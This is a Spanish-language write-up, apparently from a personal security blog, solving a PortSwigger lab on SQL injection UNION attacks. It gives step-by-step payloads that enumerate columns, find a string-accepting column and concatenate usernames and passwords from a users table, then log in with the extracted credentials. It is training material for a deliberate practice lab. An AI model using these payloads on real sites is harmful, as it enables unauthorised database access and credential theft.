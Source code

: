 ```yaml
---
title: PortSwigger - SQL injection UNION attack, retrieving multiple values in a single column.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection UNION attack, retrieving multiple values in a single column. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.

![](/images/images-portswigger-sqli/lab6-1.png)

Veremos que se agrega una cadena que es vulnerable a SQL injection.

![](/images/images-portswigger-sqli/lab6-2.png)

Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](/images/images-portswigger-sqli/lab6-3.png)

Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```

![](/images/images-portswigger-sqli/lab6-4.png)

Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```

![](/images/images-portswigger-sqli/lab6-5.png)

Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```

![](/images/images-portswigger-sqli/lab6-6.png)

Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```

![](/images/images-portswigger-sqli/lab6-7.png)

```sql
' UNION SELECT null,password from users -- -
```

![](/images/images-portswigger-sqli/lab6-8.png)

Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```

![](/images/images-portswigger-sqli/lab6-9.png)

Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```

![](/images/images-portswigger-sqli/lab6-10.png)

Con esta información vamos a **My account**.

![](/images/images-portswigger-sqli/lab6-11.png)

Iniciamos sesión con las credenciales que obtuvimos anteriormente.

![](/images/images-portswigger-sqli/lab6-12.png)

Y resolvemos el lab.

![](/images/images-portswigger-sqli/lab6-13.png)


---

## [Anterior](/SQL-injection-UNION-attack%2C-retrieving-data-from-other-tables)
## [Siguiente](/SQL-injection-attack%2C-querying-the-database-type-and-version-on-Oracle)
